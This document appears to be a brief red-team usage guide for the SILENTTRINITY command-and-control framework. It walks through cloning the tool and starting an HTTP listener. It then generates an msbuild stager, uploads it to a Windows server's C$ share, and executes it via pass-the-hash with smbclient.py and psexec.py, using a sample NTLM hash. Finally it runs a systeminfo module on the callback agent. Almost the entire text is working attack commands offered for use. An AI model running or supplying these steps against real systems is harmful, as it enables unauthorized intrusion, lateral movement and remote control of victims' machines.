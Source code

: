 ## SILENTTRINITY

https://github.com/byt3bl33d3r/SILENTTRINITY


### Basic usage #1

**Attacker**:

* Ubuntu 16.04.6 LTS
* SILENTTRINITY version 0.1.0dev
* python version 3.7

**Victim**:

* Windows server 2012 r2


#### Download and run SILENTTRINITY

```
git clone https://github.com/byt3bl33d3r/SILENTTRINITY
cd SILENTTRINITY/
./st.py
```

#### Launch listeners and generate a stager for this listener

```
listeners
use http
set Port 3281
start

stagers
use msbuild
generate http

[+] Generated stager to msbuild.xml
[*] Launch with 'C:\Windows\Microsoft.NET\Framework64\v4.0.30319\msbuild.exe msbuild.xml'
```

#### execute the stager

```
smbclient.py -hashes :f56a839599f1be0401281dd9623c29 "CONTOSO/adminjd:@192.168.0.1"
use C$
cd windows/temp
put msbuild.xml
```

```
psexec.py -hashes :f56a839599f1be0401281dd9623c29 "CONTOSO/adminjd:@192.168.0.1"
cd ../temp
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\msbuild.exe msbuild.xml
```

#### run modules

An agent should appear in SILENTTRINITY console.


```
sessions
list

modules
use ipy/systeminfo
run 86d80152-6152-4b8b-9b91-bb1c60440238
```



